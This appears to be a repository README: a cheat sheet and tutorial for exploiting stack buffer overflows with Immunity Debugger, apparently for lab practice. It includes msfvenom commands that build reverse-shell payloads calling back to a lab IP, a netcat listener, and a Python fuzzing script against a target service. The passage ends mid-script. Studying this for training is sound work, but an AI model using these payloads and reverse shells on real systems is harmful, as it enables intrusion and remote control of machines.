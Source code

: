
# Buffer Overflow with Immunity Debugger

<br>

### NOTE - IF HAVING ISSUES
 - If the payload isn't working consistently, then there is probably an issue with the Send/Recv part. Triple check the script is working the same way as it does in netcat!
 - Ensure the IP that the reverse shell is connecting back to is correct, I.E. correct subnet (look at the IP of the target then at local PC).

### Quick Commands
 - Create Patter & Search for Offset
```bash
msf-pattern_create -l 200
msf-pattern_offset -l 200 -q EIP_VALUE
```
 - View Modules
```bash
!mona modules
```

 - Search for `JMP ESP`
```bash
!mona find -s "\xff\xe4" -m APPLICATION_NAME.exe
```

 - Shells
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.20.147 LPORT=3155 -b "\x00\x0a" -f python --var-name attackPayload
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.20.147 LPORT=3155 -b "\x00" -f python --var-name attackPayload EXITFUNC=thread

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.20.147 LPORT=3155 -f exe -o reverseX32.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.20.147 LPORT=3155 -f exe -o reverseX64.exe

nc -nlvp 3155
```

<br>

### 1 - Causing a Buffer Overflow
 - Load the application in Immunity Debugger.
 - We need to fuzz the application and determine at which point the buffer overflow occurs.
 - We can do this by sending larger and larger payloads until the application crashs:

```python
import sys, socket
from time import sleep

endpointIp = '192.168.20.141'
endpointPort = 31337

buffer = b'a' * 100

while True:
	try:
		payload = buffer + b'\r\n'
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect((endpointIp, endpointPort))
		print('Sending Payload of ' + str(len(buffer)) + ' bytes')
		s.send(payload)
		s.close()
		sleep(1)
		buffer = buffer + b'a' * 100
```